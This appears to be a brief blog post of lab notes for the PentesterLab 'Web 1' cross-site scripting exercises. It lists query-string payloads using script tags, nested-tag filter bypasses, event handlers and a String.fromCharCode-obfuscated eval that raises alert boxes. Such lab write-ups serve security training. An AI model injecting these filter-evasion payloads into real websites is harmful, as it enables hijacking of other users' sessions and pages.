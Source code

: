 ```yaml
---
layout: post
title: Pentesterlab.com Web 1
---
```

#XSS
?name=<script>alert('here')</script>
?name=<script<script>>alert('here')<</script>/script>
?name=<script<script>>alert('here')<</script>/script>
?name=test<a href="" onmouseover="alert('hi')">test</a>
?name=test<a href="" onmouseover="prompt('hi')">test</a> OR ?name=test<a href="" onmouseover="eval(String.fromCharCode('097', '108', '101', '114', '116', '040', '039', '104', '105', '039', '041'));">test</a>
